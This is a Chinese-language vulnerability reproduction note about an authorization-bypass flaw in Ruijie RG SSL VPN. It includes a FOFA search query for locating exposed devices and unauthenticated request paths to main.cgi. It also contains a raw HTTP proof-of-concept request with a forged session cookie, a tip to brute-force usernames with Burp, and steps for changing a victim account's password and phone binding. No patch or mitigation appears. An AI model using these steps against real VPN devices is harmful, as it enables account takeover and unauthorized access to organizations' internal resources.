 # 锐捷RG SSL VPN 垂直越权漏洞

**一、漏洞简介**

Ruijie SSL VPN 存在越权访问漏洞，攻击者在已知用户名的情况下，可以对账号进行修改密码和绑定手机的操作。并在未授权的情况下查看服务器资源

**二、影响版本**  
锐捷RG SSL VPN  
**三、资产测绘**

fofa`icon_hash="884334722" || title="Ruijie SSL VPN"`  
●登录页面![1716003142340-e37abdfb-2331-46bd-9184-8f06ccc163f8.png](./img/rnV_dT0P-F2gQ0uU/1716003142340-e37abdfb-2331-46bd-9184-8f06ccc163f8-202983.png)

  
**四、漏洞复现**

```plain
/cgi-bin/main.cgi?oper=getrsc
```

直接访问，回显如下：

![1716002869509-8022ac2f-2774-470e-a9a5-c0a6eddcb6e4.png](./img/rnV_dT0P-F2gQ0uU/1716002869509-8022ac2f-2774-470e-a9a5-c0a6eddcb6e4-567977.png)

随后访问如下，UserName 参数为已知用户名 在未知登录用户名的情况下 漏洞无法利用(根据请求包使用Burp进行用户名爆破)

```plain
/cgi-bin/main.cgi?oper=showsvr&encode=GBK&username=name&sid=1614345312&oper=showres
```

![1716003540683-111e6aa4-2326-44c7-bfaf-ac707445a34b.png](./img/rnV_dT0P-F2gQ0uU/1716003540683-111e6aa4-2326-44c7-bfaf-ac707445a34b-026112.png)

<font style="color:rgb(0, 0, 0);">查看服务器资源</font><font style="color:rgba(0, 0, 0, 0.9);">POC：</font>

```plain
GET /cgi-bin/main.cgi?oper=getrsc HTTP/1.1
Host: 127.0.0.1
Connection: close
Pragma: no-cache
Cache-Control: no-cache
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/88.0.4324.190 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
Cookie: UserName=name; SessionId=1; FirstVist=1; Skin=1; tunnel=1
```

![1716003718786-1772a9c9-e1e3-4d28-b214-4a3f675b8f85.png](./img/rnV_dT0P-F2gQ0uU/1716003718786-1772a9c9-e1e3-4d28-b214-4a3f675b8f85-584396.png)

通过此方法知道用户名后可以通过漏洞修改账号参数，访问

```plain
/cgi-bin/main.cgi?oper=showsvr&encode=GBK&username=liuw&sid=1&oper=showres
```

![1716003925237-08d888f1-6d4f-4ff1-b393-80e22421595c.png](./img/rnV_dT0P-F2gQ0uU/1716003925237-08d888f1-6d4f-4ff1-b393-80e22421595c-256764.png)

点击个人设置跳转页面即可修改账号信息

![1716003942414-7766703a-9795-4795-8397-40b3ed33cfa1.png](./img/rnV_dT0P-F2gQ0uU/1716003942414-7766703a-9795-4795-8397-40b3ed33cfa1-770431.png)



> 更新: 2024-06-24 11:42:25  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/tmgs3g967ixmiwam>